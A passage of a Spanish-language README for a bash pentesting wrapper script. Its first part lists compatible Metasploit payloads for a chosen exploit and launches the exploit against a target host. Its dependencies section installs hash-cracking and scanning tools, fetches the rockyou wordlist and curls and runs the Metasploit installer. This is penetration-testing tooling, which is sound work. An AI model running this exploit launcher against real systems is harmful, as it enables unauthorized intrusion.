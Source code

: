 ```bash 

	echo -e "${G}Usando el exploit: $exploit${NOCOLOR}"

	echo -e "${G}Buscando payloads compatibles...${NOCOLOR}"
	payloads=$(msfconsole -q -x "use ${exploit}; show payloads; exit" | grep -oE 'payload/[^ ]+')

	if [ -z "$payloads" ]; then
    	echo -e "${R}No se encontraron payloads compatibles.${NOCOLOR}"
    	exit 1
	fi

	echo -e "${G}Payloads compatibles encontrados:${NOCOLOR}"
	i=1
	for payload in $payloads; do
    	echo "$i. $payload"
    	((i++))
	done

	echo -e "${B}Elige un payload del listado (escribe el número correspondiente):${NOCOLOR}"
	read payload_num
	payload=$(echo "$payloads" | sed -n "${payload_num}p")

	echo -e "${G}Usando el payload: $payload${NOCOLOR}"

	echo -e "${G}Ejecutando exploit...${NOCOLOR}"
	msfconsole -q -x "use $exploit; set RHOSTS $mfs_ip; set RPORT $mfs_port; set PAYLOAD $payload; exploit; exit"

	echo -e "${G}Terminado.${NOCOLOR}"
fi
```

## DEPENDENCIAS
Unos simples comandos para instalar todos los programas que se usan en el script y descargar el rockyou, aqui se podrian añadir mas wordlists en el caso de necesitarlas.

```bash
echo -e "${G}Instalando dependencias....${NOCOLOR}"
apt update
apt-get install nmap john hashid hashcat fping wfuzz libimage-exiftool-perl toilet -y
git clone https://github.com/zacheller/rockyou.git
tar -xzvf rockyou/rockyou.txt.tar.gz -C "/usr/share/wordlists"
rm -rf rockyou
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb >msfinstall && chmod 755 msfinstall && ./msfinstall
echo -e "${G}Listo!${NOCOLOR}"
sleep 2
;;
```


